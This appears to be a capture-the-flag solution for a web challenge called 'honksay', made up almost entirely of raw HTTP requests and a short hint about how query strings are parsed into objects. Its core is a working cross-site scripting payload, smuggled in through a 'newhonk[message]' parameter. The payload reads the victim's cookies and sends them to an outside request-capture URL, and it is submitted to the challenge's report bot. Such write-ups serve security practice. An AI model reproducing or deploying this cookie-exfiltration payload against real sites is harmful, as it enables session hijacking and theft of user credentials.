 POST /report HTTP/1.1  <br />
Host: honksay.ctf.maplebacon.org  <br />
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0  <br />
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8  <br />
Accept-Language: en-US,en;q=0.5  <br />
Accept-Encoding: gzip, deflate  <br />
Content-Type: application/x-www-form-urlencoded  <br />
Content-Length: 199  <br />
Origin: http://honksay.ctf.maplebacon.org  <br />
Connection: close  <br />
Referer: http://honksay.ctf.maplebacon.org/  <br />
Cookie: honk=HONK; honkcount=0  <br />
Upgrade-Insecure-Requests: 1  <br />
 <br />
url=http://localhost:9988/changehonk?newhonk[message]=<script>img=new+Image();date=document.cookie;img.src='https://requestinspector.com/inspect/01gbfjfxcse4stadnqcpmkftve/?d='.concat(date);</script>  <br />
 <br />
 <br />

Experiment: <br />
GET /changehonk?newhonk[message]=<script>img=new+Image();date=document.cookie;img.src='https://requestinspector.com/inspect/01gbfjfxcse4stadnqcpmkftve/?d='.concat(date);</script> HTTP/1.1  <br />
Host: honksay.ctf.maplebacon.org  <br />
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0  <br />
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8  <br />
Accept-Language: en-US,en;q=0.5  <br />
Accept-Encoding: gzip, deflate  <br />
Connection: close  <br />
Cookie: honk=undefined; honkcount=0  <br />
Upgrade-Insecure-Requests: 1  <br />
 <br />
 <br />

GET / HTTP/1.1  <br />
Host: honksay.ctf.maplebacon.org  <br />
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0  <br />
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8  <br />
Accept-Language: en-US,en;q=0.5  <br />
Accept-Encoding: gzip, deflate  <br />
Connection: close  <br />
Cookie: honk=j%3A%7B%22message%22%3A%22%3Cscript%3Eimg%3Dnew%20Image()%3Bdate%3Ddocument.cookie%3Bimg.src%3D'https%3A%2F%2Frequestinspector.com%2Finspect%2F01gbfjfxcse4stadnqcpmkftve%2F%3Fd%3D'.concat(date)%3B%3C%2Fscript%3E%22%7D; honkcount=0  <br />
Upgrade-Insecure-Requests: 1  <br />
 <br />
 <br />

hint: <br />
username[]=a&username[]=b is interpreted as username = ['a', 'b'] <----considered as an array,  <br />
username=a&username=b is interpreted as username = ['a', 'b'] <----considered as an array,  <br />
username[hello]=a is interpreted as username = {hello: 'a'} <------considered as an object,  <br />
username=a is interpreted as username = a <-------considered as string.

